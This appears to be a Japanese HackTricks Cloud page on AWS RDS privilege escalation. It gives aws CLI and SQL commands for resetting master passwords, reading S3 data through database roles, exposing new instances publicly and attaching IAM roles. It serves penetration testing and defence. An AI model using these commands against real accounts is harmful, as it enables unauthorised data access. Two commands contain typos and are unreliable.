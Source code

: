 # AWS - RDS 特権昇格

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じて、ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい** または **HackTricks をPDFでダウンロードしたい** 場合は [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を発見し、独占的な [**NFTs**](https://opensea.io/collection/the-peass-family) のコレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)** または [telegramグループ](https://t.me/peass) に **参加** するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live) **をフォロー** してください。
* **ハッキングテクニックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) のgithubリポジトリに提出してください。

</details>

## RDS - 関係データベースサービス

RDSに関する詳細情報は次を参照してください:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

この権限を持っていると、攻撃者は**マスターユーザーのパスワードを変更**し、データベース内のログインを変更できます。
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
データベースに**連絡する必要**があります（通常、内部ネットワークからのみアクセス可能です）。
{% endhint %}

**潜在的な影響:** データベース内で機密情報を見つける。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールIAM権限の悪用

#### Postgresql（Aurora）

{% hint style="success" %}
**`SELECT datname FROM pg_database;`**を実行して**`rdsadmin`**というデータベースが見つかった場合、**AWSのPostgresqlデータベース**内にいることがわかります。
{% endhint %}

まず、このデータベースが他のAWSサービスへのアクセスに使用されているかどうかを確認できます。インストールされた拡張機能を確認することでこれを確認できます：
```sql
SELECT * FROM pg_extension;
```
もし**`aws_s3`**のようなものを見つけた場合、このデータベースが**S3に対するある種のアクセス**を持っていると推定できます（**`aws_ml`**や**`aws_lambda`**などの他の拡張子もあります）。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、**`AssociatedRoles`**フィールドで**クラスタに紐付けられたIAMロール**があるかどうかを確認できます。もしあれば、そのデータベースが**他のAWSサービスにアクセスするために準備されている**と推定できます。**ロールの名前**（またはロールの**権限**を取得できる場合）に基づいて、データベースがどのような追加アクセス権限を持っているかを**推測**することができます。

さて、**バケット内のファイルを読む**には、フルパスを知る必要があります。次のようにして読むことができます：
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**生のAWS資格情報**を持っている場合、それらを使用してS3データにアクセスすることもできます。
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
PostgresqlはS3にアクセスするために**任意のパラメータグループ変数を変更する必要はありません**。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Mysql内で、クエリ**`SELECT User, Host FROM mysql.user;`**を実行し、**`rdsadmin`**というユーザーがいる場合、**AWS RDS mysql db**内にいると推定できます。
{% endhint %}

Mysql内で**`show variables;`**を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`**などの変数に値がある場合、データベースがS3データにアクセスする準備が整っていると推定できます。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、クラスターに**関連付けられたロール**があるかどうかを確認できます（通常、AWSサービスへのアクセスを意味します）。

今、**バケット内のファイルを読む**には、フルパスを知る必要があります。次のようにして読むことができます：
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster`および`iam:PassRole`権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**できます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりする可能性があります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在的影響**: RDSインスタンス内の機密データへのアクセスや権限のないデータの変更が可能となります。\
一部のDBは追加の設定が必要な場合があります。たとえば、Mysqlでは、パラメータグループでロールARNを指定する必要があります。

### `rds:CreateDBInstance`

この権限だけで、攻撃者はすでに存在するクラスタ内に**新しいインスタンス**を作成し、**IAMロール**をアタッチすることができます。彼はマスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開する可能性があります。
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: テスト
{% endhint %}

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールがアタッチされた新しいRDSインスタンスを作成**することができます。その後、攻撃者は潜在的に**機密データにアクセス**したり、インスタンス内のデータを変更する可能性があります。

{% hint style="warning" %}
アタッチするロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）:

* プロファイルはあなたのアカウントに存在している必要があります。
* プロファイルには、Amazon EC2が前提とするIAMロールを持っている必要があります。
* インスタンスプロファイル名と関連するIAMロール名は、接頭辞 `AWSRDSCustom` で始まる必要があります。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたは権限のないデータの変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`および`iam:PassRole`の権限を持つ攻撃者は、**指定されたロールを既存のRDSインスタンスに追加**できます。これにより、攻撃者はインスタンス内の**機密データにアクセス**したり、データを変更したりする可能性があります。

{% hint style="warning" %}
このDBインスタンスはクラスターの外にある必要があります
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在的な影響**: RDSインスタンス内の機密データへのアクセスやデータへの不正な変更。

<details>

<summary><strong>ゼロからヒーローまでのAWSハッキングを学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)で**フォロー**してください。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
